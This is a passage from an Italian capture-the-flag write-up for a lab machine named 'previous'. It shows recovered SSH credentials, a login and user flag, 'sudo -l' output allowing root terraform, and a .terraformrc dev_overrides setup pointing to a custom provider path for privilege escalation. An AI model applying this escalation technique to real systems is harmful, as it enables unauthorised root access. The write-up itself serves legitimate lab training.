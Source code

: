 ```text
})();

```

Perche' funziona? [https://nextjs.org/docs/pages/building-your-application/routing/dynamic-routes](https://nextjs.org/docs/pages/building-your-application/routing/dynamic-routes)

Si e' utilizzato [https://lelinhtinh.github.io/de4js/](https://lelinhtinh.github.io/de4js/).

Si trovano le credenziali:

- `jeremy:MyNameIsJeremyAndILovePancakes`

## Shell

```bash

$ ssh jeremy@10.x.x.x

```

```bash

$ jeremy@previous:~$ ls
docker  user.txt

$ jeremy@previous:~$ cat user.txt 
cb7bbb2388293baf940d1a47af262ea8

```

## Priv Escalation

```bash

jeremy@previous:~$ sudo -l
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply

```

`.terraformrc`

```text

provider_installation {
        dev_overrides {
                "previous.htb/terraform/examples" = "/usr/local/go/bin"
        }
        direct {}
}

```
